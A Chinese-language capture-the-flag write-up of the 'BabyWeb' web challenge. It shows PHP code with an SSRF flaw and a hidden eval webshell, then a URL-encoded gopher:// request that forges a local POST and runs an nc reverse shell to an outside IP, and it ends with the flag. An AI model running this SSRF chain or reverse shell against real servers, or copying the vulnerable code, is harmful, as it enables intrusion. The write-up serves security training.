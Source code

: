 BabyWeb 600 points
================

题意
-------------

Just find one way to use webshell. : )

http://host:port

解题步骤
-------------

打开网址，看到的是：

```
<?php 
function curl($url){ 
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_URL, $url); 
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    $re = curl_exec($ch); 
    curl_close($ch); 
    return $re; 
} 
if(!empty($_GET['url'])){ 
    $url = $_GET['url']; 
    curl($url); 
}else{ 
    highlight_file(__FILE__);  
} 
```

显然是一个 `SSRF(Server Side Request Forge)` 了。用 `file:///` 协议随便看了些文件，没找到什么有用的信息。然后打开 `robots.txt` ：

```
User-agent: *
Disallow: /webshe11111111.php
```

根据这个地址，访问 `file:///var/www/html/webshe11111111.php` ：

```
<?php
$serverList = array(
    "127.0.0.1"
);
$ip = $_SERVER['REMOTE_ADDR'];
foreach ($serverList as $host) {
    if ($ip === $host) {
        if ((!empty($_POST['admin'])) and $_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else {
            die("You aren't admin!");
        }
    } else {
        die('This is webshell');
    }
}
```

所以我们需要：

1. 从本地 POST
2. 在 POST 中传 body
3. 通过 body 中 hacker 参数打开一个反弹 shell

这些不能通过 `http://` 完成，但是通过 `gopher://` 协议，我们可以手动构造一个 `HTTP POST` 请求。

```
转义前：
POST /webshe11111111.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
admin=h1admin&hacker=system("reverse_shell")

转义后：
curl -vvv "202.112.51.130:8016/?url=gopher%3A%2F%2F127%2E0%2E0%2E1%3A80%2F%5FPOST%2520%2Fwebshe11111111%2Ephp%2520HTTP%2F1%2E1%250D%250AHost%3A%2520127%2E0%2E0%2E1%250D%250AContent%2DType%3A%2520application%2Fx%2Dwww%2Dform%2Durlencoded%250D%250AContent%2DLength%3A%2520182%250D%250A%250D%250Aadmin%3Dh1admin%26hacker%3Dsystem%252528%252522rm%252520%25252Ftmp%25252Ff%25253Bmkfifo%252520%25252Ftmp%25252Ff%25253Bcat%252520%25252Ftmp%25252Ff%25257C%25252Fbin%25252Fsh%252520%25252Di%2525202%25253E%2525261%25257Cnc%252520123%25252E123%25252E123%25252E123%2525201233%252520%25253E%25252Ftmp%25252Ff%252522%252529%25253B"
```

就可以拿到反弹的 `shell` 了，读取 `fl11111aaaaaggggg.php` 的内容：

```
<?php $flag="THUCTF{Th1s_EaSy_sSRF}";?>
```